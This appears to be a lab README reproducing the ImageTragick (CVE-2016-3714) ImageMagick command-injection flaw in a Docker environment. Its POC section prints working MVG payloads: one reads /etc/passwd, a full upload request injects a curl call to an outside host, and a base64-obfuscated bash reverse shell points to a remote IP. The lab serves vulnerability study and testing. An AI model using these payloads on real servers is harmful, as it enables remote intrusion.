

# Imagetragick Command Execution Vulnerability (CVE-2016–3714)

[中文版本(Chinese version)](README.zh-cn.md)

The principle and details are as follows:

- https://imagetragick.com/
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html

## Environment Setup

Enter the following commands:

```
docker-compose build
docker-compose up -d
```

Visit `http://your-ip/` and you'll see three files:

```bash
├── demo.php # use vul.jpg + identify command to test 
├── upload.php # Support users to upload a file，deliver it to PHP's imagick extension, and then the vulnerability will be triggered
└── vul.jpg # a simple POC
```

## POC

Some POCs used: https://github.com/ImageTragick/PoCs

You can take a test by visiting `http://your-ip/demo.php`. Even though the command executed (`cat /etc/passwd > /tmp/success`) has no echo reply, we successfully obtain the `/tmp/success` file in the docker container:



Also you can visit `http://your-ip/upload.php` to test another POC. Upload the POC file and packets are as follows（**Attention，this is another POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

As shown, `www.leavesongs.com:8889` has received the http request, proving that the curl command is executed successfully：


POC of getting a shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```


